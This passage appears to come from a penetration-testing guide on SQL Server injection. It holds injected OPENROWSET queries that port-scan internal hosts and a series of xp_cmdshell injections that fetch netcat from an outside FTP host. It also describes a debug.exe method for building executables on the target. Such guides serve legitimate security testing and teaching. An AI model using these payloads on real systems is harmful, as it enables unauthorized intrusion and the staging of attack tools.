 ### Example 7: SQL Server as a port scanner

In SQL Server, one of the most useful (at least for the penetration
tester) commands is OPENROWSET, which is used to run a query on another
DB Server and retrieve the results. The penetration tester can use this
command to scan ports of other machines in the target network, injecting
the following query:

    select * from OPENROWSET('SQLOLEDB','uid=sa;pwd=foobar;Network=DBMSSOCN;Address=x.y.w.z,p;timeout=5','select 1')--

This query will attempt a connection to the address x.y.w.z on port p.
If the port is closed, the following message will be returned:

    SQL Server does not exist or access denied

On the other hand, if the port is open, one of the following errors will
be returned:

    General network error. Check your network documentation

    OLE DB provider 'sqloledb' reported an error. The provider did not give any information about the error.

Of course, the error message is not always available. If that is the
case, we can use the response time to understand what is going on: with
a closed port, the timeout (5 seconds in this example) will be consumed,
whereas an open port will return the result right away.

Keep in mind that OPENROWSET is enabled by default in SQL Server 2000
but disabled in SQL Server 2005.

### Example 8: Upload of executables

Once we can use xp_cmdshell (either the native one or a custom one), we
can easily upload executables on the target DB Server. A very common
choice is netcat.exe, but any trojan will be useful here. If the target
is allowed to start FTP connections to the tester's machine, all that is
needed is to inject the following queries:

    exec master..xp_cmdshell 'echo open ftp.tester.org > ftpscript.txt';--
    exec master..xp_cmdshell 'echo USER >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo PASS >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo bin >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo get nc.exe >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo quit >> ftpscript.txt';--
    exec master..xp_cmdshell 'ftp -s:ftpscript.txt';--

At this point, nc.exe will be uploaded and available.
If FTP is not allowed by the firewall, we have a workaround that
exploits the Windows debugger, debug.exe, that is installed by default
in all Windows machines. Debug.exe is scriptable and is able to create
an executable by executing an appropriate script file. What we need to
do is to convert the executable into a debug script (which is a 100%
ASCII file), upload it line by line and finally call debug.exe on it.
There are several tools that create such debug files (e.g.: makescr.exe
by Ollie Whitehouse and dbgtool.exe by toolcrypt.org). The queries to
inject will therefore be the following:
